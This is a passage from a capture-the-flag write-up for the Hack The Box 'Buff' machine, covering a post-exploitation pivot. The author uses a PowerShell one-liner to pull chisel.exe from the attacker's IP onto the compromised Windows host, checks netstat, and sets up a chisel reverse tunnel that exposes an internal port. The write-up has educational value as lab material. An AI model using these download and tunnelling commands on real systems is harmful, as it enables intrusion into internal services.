 To exploit this service, i will need a tcp port forward, so i will use this [**Tool**](https://github.com/jpillora/chisel)
let's begin:

[**Attacker Machine**]

```shell
root@kali:/home/ezi0x00/HTB/Buff# chisel server --port 1337 --reverse
2020/11/22 04:55:48 server: Reverse tunnelling enabled
2020/11/22 04:55:48 server: Fingerprint f7h2cfsN3hsSt6FhG0RQYz/GehDbLcPFQcApWb7lqbU=
2020/11/22 04:55:48 server: Listening on http://0.0.0.0:1337
```

[**Victim Machine**]

i'm still running Simple Python Server so you will download `chisel` and run it like netcat  
```shell
C:\Users\shaun\Downloads>powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.11/chisel.exe','chisel.exe')
powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.11/chisel.exe','chisel.exe')
Invoke-Expression : Cannot bind argument to parameter 'Command' because it is null.
At line:1 char:4
+ IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.11/chisel ...
+    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidData: (:) [Invoke-Expression], ParameterBindingValidationException
    + FullyQualifiedErrorId : ParameterArgumentValidationErrorNullNotAllowed,Microsoft.PowerShell.Commands.InvokeExpre 
   ssionCommand
 

C:\Users\shaun\Downloads>
```
before run `chisel` running `netstat -an` shows the port is only exposed to the local machine.
```shell
C:\Users\shaun\Downloads>netstat -an
netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
 ......snip......

  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING

......snip......
```   
we will choose `8888` port because this is default port in shell code.
```shell
C:\Users\shaun\Downloads>.\chisel.exe client 10.10.16.11:1337 R:8888:127.0.0.1:8888
.\chisel.exe client 10.10.16.11:1337 R:8888:127.0.0.1:8888
2020/11/22 02:56:12 client: Connecting to ws://10.10.16.11:1337
2020/11/22 02:56:14 client: Connected (Latency 79.4645ms)
```
Now we have succeeded in making Tunel.
